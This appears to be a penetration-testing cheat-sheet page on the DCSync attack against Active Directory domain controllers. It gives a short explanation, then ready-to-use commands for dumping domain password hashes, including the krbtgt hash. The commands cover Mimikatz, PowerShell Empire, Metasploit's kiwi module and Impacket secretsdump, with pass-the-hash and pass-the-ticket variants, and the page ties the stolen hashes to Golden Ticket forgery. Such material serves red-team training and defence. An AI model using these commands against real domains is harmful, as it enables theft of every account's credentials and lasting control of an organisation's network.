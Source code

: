 # DCSync

## <mark style="color:red;">DSR</mark>

Most organizations need more than one domain controller for their Active Directory and to maintain consistency among multiple Domain controller, it is necessary to have the Active Directory objects replicated through those DCs with the help of MS-DRSR refer as Microsoft feature Directory Replication Service (DRS) Remote Protocol that is used to replicate users data from one DC to another. Taking Advantage of this feature the attack abuse the MS-DRSR using Mimikatz-DCSYNC.

{% hint style="info" %}
Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.
{% endhint %}

## <mark style="color:red;">**DCSYNC Attack**</mark>

The Mimikatz DCSYNC-function allows an attacker to replicate Domain Controller (DC) behaviour. Typically impersonates as a domain controller and request other DC’s for user credential data via GetNCChanges.

But compromised account should be a member of administrators, Domain Admin or Enterprise Admin to retrieve account password hashes from the others domain controller. As a result, the intruder will build Kerberos forged tickets using a retrieved hash to obtain any of the Active Directory ‘s resources and this is known as **Golden Ticket** attack.

{% hint style="info" %}
**For this attack to work, we need to have a user account with domain admins membership.**
{% endhint %}

### <mark style="color:orange;">**Using Mimikatz DCSync**</mark>

```
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

{% hint style="info" %}
Read-Only Domain Controllers are not allowed to pull password data for users by default.
{% endhint %}

### <mark style="color:orange;">**PowerShell Empire**</mark>

```
usemodule credentials/mimikatz/dcsync_hashdump
set user krbtgt
execute
```

the Empire has a similar module that retrieves the hash of the entire domain controller users account.

```
usemodule credentials/mimikatz/dcsync_hashdump
execute
```

### <mark style="color:orange;">**Metasploit**</mark>

If you have meterpreter session of the victim machine who account is member of domain admin, then here also you can execute Mimikatz-DCSYNC attack in order to obtain user’s password.

```
load kiwi
dcsync_ntlm krbtgt
dcsync krbtgt
```

### <mark style="color:orange;">Impacket secretsdump</mark>

```
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'
​
# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
​
# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```
